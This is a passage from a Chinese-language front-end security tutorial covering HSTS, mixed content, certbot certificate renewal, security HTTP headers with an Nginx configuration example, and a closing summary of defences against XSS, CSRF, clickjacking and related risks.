- `max-age=31536000`：1 年内强制 HTTPS
- `includeSubDomains`：包括所有子域名
- `preload`：加入浏览器预加载列表（去 `hstspreload.org` 提交）

设置 HSTS 后，即使用户输入 `http://example.com`，浏览器也会自动改成 `https://`。

#### 避免混合内容（Mixed Content） ####

HTTPS 页面里不要加载 HTTP 资源，否则浏览器会警告或阻止：

```html
<!-- 危险 -->
<script src="http://example.com/script.js"></script>


<!-- 安全 -->
<script src="https://example.com/script.js"></script>


<!-- 协议相对路径（自动匹配当前页面协议） -->
<script src="//example.com/script.js"></script>
```

检查混合内容：

```javascript
// 检测页面是否有混合内容
console.log(document.URL.startsWith('https'));

// 监听混合内容警告
window.addEventListener('securitypolicyviolation', (e) => {
  console.warn('Mixed content:', e);
});
```

#### 证书有效期 ####

记得续期证书。可以用 Let's Encrypt 免费证书，配合 certbot 自动续期：

```bash
# 安装 certbot
apt-get install certbot python3-certbot-nginx

# 获取证书
certbot --nginx -d example.com

# 自动续期（cron job）
0 0 * * * certbot renew --quiet
```

## 安全 HTTP 响应头清单 ##

除了前面提到的 CSP、X-Frame-Options、HSTS，还有几个重要的安全头：

### X-Content-Type-Options ###

禁止浏览器 MIME 类型嗅探：

```ini
X-Content-Type-Options: nosniff
```

防止浏览器把 `text/plain` 文件当 JavaScript 执行。

### Referrer-Policy ###

控制 Referer 头泄露多少信息：

```ini
Referrer-Policy: strict-origin-when-cross-origin
```

可选值：

- `no-referrer`：不发送
- `no-referrer-when-downgrade`：HTTPS→HTTP 不发送
- `origin`：只发送域名
- `strict-origin-when-cross-origin`：跨域只发送域名（推荐）

### Permissions-Policy ###

限制浏览器功能（原 Feature-Policy）：

```ini
Permissions-Policy: geolocation=(), microphone=(), camera=(), payment=()
```

禁止页面访问摄像头、麦克风、地理位置等。

### X-XSS-Protection（已过时） ###

```ini
X-XSS-Protection: 0
```

这个头已经过时了，现代浏览器不再推荐使用。用 CSP 代替。

### 完整配置示例 ###

```nginx
# Nginx 配置
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "SAMEORIGIN" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "geolocation=(), microphone=(), camera=()" always;
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self'; connect-src 'self'; frame-ancestors 'self'" always;
```

### 检测工具 ###

用 `securityheaders.com` 检测你的网站缺少哪些安全头，会给出评分和改进建议。

## 小结 ##



前端安全的核心思路：

- **不信任任何输入**：用户输入、URL 参数、第三方数据，都要验证和转义
- **最小权限原则**：Cookie 设置 HttpOnly、Secure、SameSite；CSP 限制资源加载；CORS 白名单
- **纵深防御**：不要依赖单一防护手段，多层防护叠加
- **保持更新**：依赖版本、安全补丁、浏览器新特性

具体措施速查：

- **XSS 防御**：用 textContent、转义 HTML、DOMPurify、HttpOnly Cookie、CSP
- **CSRF 防御**：CSRF Token、SameSite Cookie、验证请求来源
- **点击劫持防御**：X-Frame-Options、CSP frame-ancestors、SameSite Cookie
- **CORS 安全**：白名单验证 Origin，不动态反射，限制方法和头
- **依赖安全**：锁定版本、npm ci、定期审计、禁用脚本、私有源、减少依赖
- **存储安全**：不存敏感数据到 localStorage，用 HttpOnly Cookie，实现过期机制
- **传输安全**：强制 HTTPS、HSTS、避免混合内容、Let's Encrypt 自动续期
- **HTTP 头**：CSP、X-Frame-Options、HSTS、X-Content-Type-Options、Referrer-Policy、Permissions-Policy

安全是个持续的过程，不是一劳永逸的事。定期审计代码、更新依赖、关注安全公告，才能持续保障系统安全。
